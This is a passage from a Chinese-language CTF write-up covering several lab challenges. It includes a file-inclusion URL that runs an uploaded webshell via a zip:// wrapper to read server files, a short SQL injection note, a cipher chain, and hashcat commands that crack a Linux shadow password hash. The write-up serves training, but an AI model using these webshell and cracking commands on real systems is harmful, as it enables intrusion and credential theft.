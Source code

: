 ```
```
11111bg.css
common_ui.inc
flag_sdhaofjaASFAF
index.php
upload
upload.php
```

![](images/mdmd2021-09-13-17-13-00.png)

不知道为啥，就是看不到flag，那个文件貌似是个空文件？

访问```http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=print_r(%2711111%27);print_r(`cat%20/var/www/html/*|base64`);print_r(%2722222%27);```

总结：搞了很长时间，后来学长和我说，这是个目录。。。。啊这，以后我再命令执行得先`ls -l`看一下这个文件是不是目录再说。。

```view-source:http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=print_r(%2711111%27);print_r(`cat%20/var/www/html/flag_sdhaofjaASFAF/*`);print_r(%2722222%27);```

得到`flag{edce2dc468e24729d94f951349ca25fe}`

### [九道关]sql注入

题目出现问题，访问index.php报错`500`响应码，无法正常做题

思路如下：

![](images/mdmd2021-09-13-15-20-00.png)

这里发现 `X-Powered-By` 的版本号不对，这里直接是php18

![](images/mdmd2021-09-13-15-58-51.png)

把这个字段复制到请求包里面发送，进行SQL注入即可

### [九道关]cipherception

题目描述：

```
5Affine2>8Caesar>Atbash>B64

eHR3c2lra2N0Y2p3dGV2Y2dlYXRpeWN3dGV2Y2tlanM=
```

![](images/mdmd2021-09-13-20-08-31.png)

得到`flagisselenaloveyoulikealovesong`

这里8caesar的8有一些迷惑性

### [九道关]shadow

[密码破解全能工具：Hashcat密码破解攻略](https://www.freebuf.com/sectool/164507.html)

题干描述:下载附件即可解题（无需点击“点击获取在线场景”）ps：破解righteous的ubuntu密码(Flag) ，最终提交密码的32位(小写)md5值作为flag。

`hashcat -a 0 -m 1800 a.txt --force 10-million-password-list-top-10000.txt`

`hashcat -m 1800 -a 3 -2 ?u?l -o found.txt 5.txt  --increment --increment-min 1 --increment-max 8 ?2?2?2?2?2?2?2?2 #1`

王哥说这个题的头四个字母是大写的FLAG，题目中描述漏了这个描述
```